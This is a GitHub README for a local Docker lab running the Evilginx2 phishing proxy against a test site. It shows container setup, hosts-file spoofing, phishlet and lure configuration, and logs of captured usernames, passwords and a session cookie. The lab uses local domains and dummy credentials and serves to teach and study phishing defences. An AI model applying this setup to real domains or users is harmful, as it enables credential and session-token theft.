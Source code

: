 # Evilginx LAB on Docker
![back](evil-dock.jpg)
## build & run the containers
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	
Verify if they run:

	docker ps
	CONTAINER ID   IMAGE                          COMMAND                  CREATED          STATUS          PORTS               NAMES
	636fa17740bf   evilginx_lab-main_apache-php   "apachectl -D FOREGR…"   41 minutes ago   Up 41 minutes   80/tcp, 443/tcp     targetsite.local
	2c595290c650   evilginx_lab-main_evilginx2    "/bin/bash -l"           41 minutes ago   Up 41 minutes   443/tcp, 8080/tcp   targetsile.local


## modify hosts in file in the host machine to mimic DNS
Add the following lines:

	172.18.0.20 	targetsite.local login.targetsite.local
	172.18.0.10	targetsile.local login.targetsile.local



## Start evilnginx
```bash 
sudo docker exec -it /targetsile.local /bin/bash 
root@bd1cc49349a5:/evilginx2# ./evilginx2 -developer

                                         
___________      __ __           __               
\_   _____/__  _|__|  |    ____ |__| ____ ___  ___
|    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
|        \\   /|  |  |__/ /_/  >  |   |  \>    < 
/_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
     \/              /_____/         \/      \/

        - --  Community Edition  -- -

by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[16:02:29] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[16:02:29] [inf] loading phishlets from: /evilginx2/phishlets
[16:02:29] [inf] loading configuration from: /root/.evilginx
[16:02:29] [inf] blacklist mode set to: unauth
[16:02:29] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[16:02:29] [inf] https port set to: 443
[16:02:29] [inf] dns port set to: 53
[16:02:29] [inf] autocert is now enabled
[16:02:29] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[16:02:30] [war] server domain not set! type: config domain <domain>
[16:02:30] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  
| example           | disabled  | visible     |           |             |                                                                                                                                                                  
| targetsite-local  | disabled  | visible     |           |             |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  

:  


```
                                        
## Config Evilngnix container

	: config domain evilginx3.local
	: config ipv4 172.18.0.10
	: phishlets hostname targetsite-local evilginx3.local
	: phishlets get-hosts targetsite-local 

		172.18.0.10 login.evilginx3.local
		172.18.0.10 evilginx3.local
	: phishlets enable  targetsite-local 
	: lures create targetsite-local 
	: lures
	: lures get-url 0
		
		https://login.evilginx3.local/eiyTwTXQ

## Captured the session token
```bash 

: 2024/12/04 16:14:15 [001] WARN: Cannot handshake client login.targetsite.local remote error: tls: unknown certificate authority
[16:14:23] [imp] [0] [targetsite-local] new visitor has arrived: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0 (10.0.2.15)
[16:14:23] [inf] [0] [targetsite-local] landing URL: https://login.evilginx3.local/eiyTwTXQ
[16:15:04] [+++] [0] Username: [adasdas]
[16:15:04] [+++] [0] Password: [dsdsdsd]
[16:15:45] [+++] [0] Username: [admin]
[16:15:45] [+++] [0] Password: [Pwd Sicur@ 123]
[16:15:45] [+++] [0] detected authorization URL - tokens intercepted: /admin.php
: sessions 

+-----+-------------------+-----------+-----------------+-----------+------------+-------------------+
| id  |     phishlet      | username  |    password     |  tokens   | remote ip  |       time        |                                                                                                                                      
+-----+-------------------+-----------+-----------------+-----------+------------+-------------------+                                                                                                                                      
| 1   | targetsite-local  | admin     | Pwd Sicur@ 123  | captured  | 10.0.2.15  | 2024-12-04 16:15  |                                                                                                                                      
+-----+-------------------+-----------+-----------------+-----------+------------+-------------------+          

: sessions 1

 id           : 1
 phishlet     : targetsite-local
 username     : admin
 password     : Pwd Sicur@ 123
 tokens       : captured
 landing url  : https://login.evilginx3.local/eiyTwTXQ
 user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 remote ip    : 10.0.2.15
 create time  : 2024-12-04 16:14
 update time  : 2024-12-04 16:15

[ cookies ]
[{"path":"/","domain":"login.targetsite.local","expirationDate":1764865104,"value":"sibi2d083ecfn4shbco7i1ro5d--very-insecure-fixed-VALUE--DO-NOT-USE-IT-NEVER-IN-REAL-APPLICATION","name":"session_token","httpOnly":true,"hostOnly":true}]

```
## useful Docker commands

### stop and remove all the containers

	sudo docker stop $(docker ps -q) && sudo docker rm $(docker ps -a -q) && sudo docker image prune -a
	
### access a container

	sudo docker exec -it <container name> /bin/bash

### check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## see logs

	sudo docker logs <container name>
	
### show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/targetsile.local - 172.18.0.10

